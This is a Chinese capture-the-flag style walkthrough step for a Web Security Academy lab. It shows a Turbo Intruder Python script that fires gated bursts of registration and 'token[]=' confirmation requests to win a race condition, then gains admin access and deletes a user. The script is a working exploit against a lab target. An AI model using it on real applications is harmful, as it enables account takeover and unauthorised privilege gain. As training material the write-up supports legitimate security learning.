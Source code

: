 ```plain
def queueRequests(target, wordlists):

        engine = RequestEngine(endpoint=target.endpoint,
                                concurrentConnections=1,
                                engine=Engine.BURP2
                                )

        confirmationReq = '''POST /confirm?token[]= HTTP/2
Host: 0a0f005704200d7b802b3a3c00da0084.web-security-academy.net
Cookie: phpsessionid=N7TCMvqWeGxy37t94UXs0WOxoetbsLHx
Content-Length: 0

    '''
        for attempt in range(20):
            currentAttempt = str(attempt)
            username = 'User' + currentAttempt

            # 队列化注册请求
            engine.queue(target.req, username, gate=currentAttempt)

            # 将50个确认请求排入队列 - 注意这可能会以两个独立数据包被发送
            for i in range(50):
                engine.queue(confirmationReq, gate=currentAttempt)

            # 把的所有队列中请求都发送出去(正确的是一次发51个包)
            engine.openGate(currentAttempt)

def handleResponse(req, interesting):
    table.add(req)
```

五、attack之后俺length排序就可以找到注册成功的账号啦，之后登录账号即为管理员权限最后删除carlos账号即可通关

[![](assets/1705974099-943a44cbc0f876ad47a66e5cca92d324.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240122071647-2646e4fc-b8b3-1.png)
